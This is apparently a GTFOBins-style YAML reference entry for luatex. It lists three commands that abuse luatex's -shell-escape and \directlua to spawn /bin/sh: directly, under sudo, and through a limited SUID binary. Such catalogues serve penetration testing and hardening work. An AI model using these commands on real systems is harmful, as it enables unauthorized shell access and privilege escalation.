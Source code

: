 ```yaml
---
description: This allows to execute [`lua`](/gtfobins/lua/) code.
functions:
  shell:
    - code: luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  sudo:
    - code: sudo luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
  limited-suid:
    - code: ./luatex -shell-escape '\directlua{os.execute("/bin/sh")}\end'
---
```

